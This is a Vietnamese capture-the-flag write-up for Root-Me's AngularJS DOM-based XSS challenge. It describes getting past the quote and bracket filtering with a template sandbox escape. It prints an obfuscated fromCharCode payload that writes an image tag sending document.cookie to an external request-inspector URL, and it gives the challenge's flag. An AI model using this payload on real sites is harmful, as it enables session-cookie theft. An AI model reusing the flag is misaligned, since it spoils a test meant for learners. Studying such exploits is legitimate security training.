# Write up challenge XSS DOM Based - AngularJS

Tác giả:
- **Nguyễn Mỹ Quỳnh** <br>

  
[Link Challenge](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-AngularJS)<br>
</br>



Truy cập challenge ta thấy có một ô input, sau nhiều lần nhập thử các input khác nhau cũng như cehfn thử các câu lệnh, em nhận thấy các dấu nháy cũng như `<>` đều bị lọc 
<br> Không còn cách nào khác ngoài việc search tìm cách taassn công với AngularJS. Và đây là kết quả tìm được cú phasp sau

<img src="./img/1.png" alt="normal_acc_TRAbID"/> 

<br>

Thử chèn câu lệnh khai thác của ta theo cú pháp trên, thay kí tự bằng mã decimal 


    {{x=valueOf.name.constructor.fromCharCode;constructor.constructor(x(100,111,99,117,109,101,110,116,46,119,114,105,116,101,40,34,60,105,109,103,32,115,114,99,61,39,104,116,116,112,115,58,47,47,114,101,113,117,101,115,116,105,110,115,112,101,99,116,111,114,46,99,111,109,47,105,110,115,112,101,99,116,47,48,49,102,122,103,53,99,55,53,104,107,103,48,121,119,54,100,99,102,122,114,103,118,121,98,100,47,34,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,43,34,39,62,34,41,59))()}}

<br>

Chèn thành công 

<img src="./img/2.png" alt="normal_acc_TRAbID"/> 
<img src="./img/3.png" alt="normal_acc_TRAbID"/> 



<br>

Nhận được request chứa cookie của user

<img src="./img/4.png" alt="normal_acc_TRAbID"/>

<br>

Tiến hành gửi url chứa ảnh lỗi cho admin có được flag và decode:

<img src="./img/5.png" alt="normal_acc_TRAbID"/>
<img src="./img/6.png" alt="normal_acc_TRAbID"/>

<br>


Submit thành công 

<img src="./img/c.png" alt="normal_acc_TRAbID"/>

<br><br>

> **Flag:** rootme{@NGu1@R_J$_1$_C001}

